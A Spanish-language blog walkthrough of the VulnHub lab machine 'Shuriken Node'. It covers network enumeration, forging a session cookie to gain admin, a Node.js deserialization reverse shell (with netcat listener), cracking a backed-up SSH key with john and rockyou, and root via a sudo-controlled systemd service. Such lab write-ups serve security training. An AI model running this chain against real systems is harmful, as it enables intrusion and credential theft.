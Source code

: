 ```yaml
---
layout: post
title: "Shuriken Node"
date: 2024-05-25 13:25:23
category: vulnhub
vm: vulnhub
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/vulnhub/vulnhub.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Shuriken Node </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Easy</span></td> </tr>
  <tr> <td><strong><a href="https://www.vulnhub.com/entry/shuriken-node,628/" target="_blank"> Descarga</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/vulnhub/ShurikenNode/host.png){:.margin}

**1\.** Escaneo de dispositivos en la red.

`sudo arp-scan -l`

![img](/notas/public/img/vulnhub/ShurikenNode/arp.png){:.margin}

**2\.** Reviso los puertos abiertos y servicios disponibles en los puertos.

`sudo nmap -p- --open -sCV -T5 --min-rate=5000 192.168.1.9 -Pn -n`

![img](/notas/public/img/vulnhub/ShurikenNode/nmap.png){:.margin}

**3\.** Revisando la Web que corre por el 8080.

`http://192.168.1.127:8080`

![img](/notas/public/img/vulnhub/ShurikenNode/8080.png){:.margin}

**4\.** haciendo fuzzing encuentro directorios, pero no nos permite visualizarlos.

`gobuster dir -u http://192.168.1.9:8080/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt,js -q`

![img](/notas/public/img/vulnhub/ShurikenNode/gobuster.png){:.margin}
![img](/notas/public/img/vulnhub/ShurikenNode/dirfail.png){:.margin}

**5\.** Copio mi cookie de session para ver su valor.

![img](/notas/public/img/vulnhub/ShurikenNode/inspect.png){:.margin}

**6\.** Voy a [Cyberchef](https://gchq.github.io/CyberChef/) para tratar la data.

![img](/notas/public/img/vulnhub/ShurikenNode/cyberchef.png){:.margin}
![img](/notas/public/img/vulnhub/ShurikenNode/cyberchef2.png){:.margin}

**7\.** Reemplazo la cookie y actualizo la pagina, me convierto en administrador.

![img](/notas/public/img/vulnhub/ShurikenNode/cookiereplace.png){:.margin}

_\- Veo que lo unico que cambia es el usuario asi que mucho no se puede hacer._

**8\.** Ingreso data al azar en la cookie y al recargarla veo que deserializa.

![img](/notas/public/img/vulnhub/ShurikenNode/cookieerror.png){:.margin}

**9\.** La forma de explotar lo tenemos a detalle en esta pagina [opsecx](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/).

_9.1- Instalo el modulo necesario; la esta funcion nos devuelve una cadena serializada, esto lo guardo en un archivo_

`npm install node-serialize`

`node serialize.js`

![img](/notas/public/img/vulnhub/ShurikenNode/serialize.png){:.margin}

_9.1- Descargo esta herramienta [nodejsshell](https://raw.githubusercontent.com/ajinabraham/Node.Js-Security-Course/master/nodejsshell.py) para generar una reverse shell codificado_

`wget https://raw.githubusercontent.com/ajinabraham/Node.Js-Security-Course/master/nodejsshell.py -q`

_9.2- Al ejecutar me da errores, tenemos que modificar un poco el codigo_

`python3 nodejsshell.py 192.168.1.9 443`

_\- En todos los print le agregamos parentesis, 'print ("ejemplo")'_

![img](/notas/public/img/vulnhub/ShurikenNode/nodejsshellerror.png){:.margin}

_\- Copiamos el payload generado_

![img](/notas/public/img/vulnhub/ShurikenNode/payload.png){:.margin}

_\- Modificamos la cadena serializada para agregar nuestro payload y lo pasamos a base64_

![img](/notas/public/img/vulnhub/ShurikenNode/serializeok.png){:.margin}
![img](/notas/public/img/vulnhub/ShurikenNode/base64.png){:.margin}

**10\.** Me pongo en escucha y pego el base64 en la cookie ; si recargamos la pagina obtendremos el acceso.

`sudo nc -nlvp 443`

![img](/notas/public/img/vulnhub/ShurikenNode/newcookie.png){:.margin}
![img](/notas/public/img/vulnhub/ShurikenNode/nc.png){:.margin}

**11\.** Tratamiento de la tty.

`script /dev/null -c bash`

   `ctrl+z`

`stty raw -echo;fg`

   `reset xterm`

`export TERM=xterm SHELL=/bin/bash`

![img](/notas/public/img/vulnhub/ShurikenNode/tty.png){:.margin}

**12\.** Tenemos 3 usuarios disponibles en el sistema.

`cat /etc/passwd | grep bash`

![img](/notas/public/img/vulnhub/ShurikenNode/catpasswd.png){:.margin}

**13\.** Encontre un backup de ssh que contiene una clave privada encriptada.

`cd /var/backups`

`ls -l`

`cp ssh-backup.zip /tmp`

`cd /tmp`

`unzip ssh-backup.zip`

`cat id_rsa`

![img](/notas/public/img/vulnhub/ShurikenNode/backupls.png){:.margin}
![img](/notas/public/img/vulnhub/ShurikenNode/idrsaencrypted.png){:.margin}

**14\.** Rompiendo la id_rsa encriptada.

_14.1- Guardo en un fichero el contenido del id_rsa_

`nano key`

![img](/notas/public/img/vulnhub/ShurikenNode/nano.png){:.margin}

_14.1- Generamos el passphrase con john_

`ssh2john key> pass`

`john --wordlist=/usr/share/wordlists/rockyou.txt pass`

![img](/notas/public/img/vulnhub/ShurikenNode/john.png){:.margin}

**15\.** Nos conectamos por ssh con el usuario serv-adm.

`ssh -id id_rsa serv-adm@192.168.1.9`

![img](/notas/public/img/vulnhub/ShurikenNode/sshserv.png){:.margin}

**16\.** Puedo ejecutar el binario systemctl como root ,ademas puedo controlar unos servicios.

`sudo -l`

`locate shuriken-auto.timer`

`cat /etc/systemd/system/shuriken-auto.timer`

![img](/notas/public/img/vulnhub/ShurikenNode/timer1.png){:.margin}

_\- Reviso este otro servicio, veo que ejecuta un binario_

`locate shuriken-job.service`

`cat /etc/systemd/sytem/shuriken-job.service`

![img](/notas/public/img/vulnhub/ShurikenNode/timer2.png){:.margin}

**17\.** Escalada de privilegios.

`nano `

`nano /etc/systemd/system/shuriken-job.service`

`sudo /bin/systemctl stop shuriken-auto.timer`

`sudo /bin/systemctl start shuriken-auto.timer`

![img](/notas/public/img/vulnhub/ShurikenNode/reverse.png){:.margin}

![img](/notas/public/img/vulnhub/ShurikenNode/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>
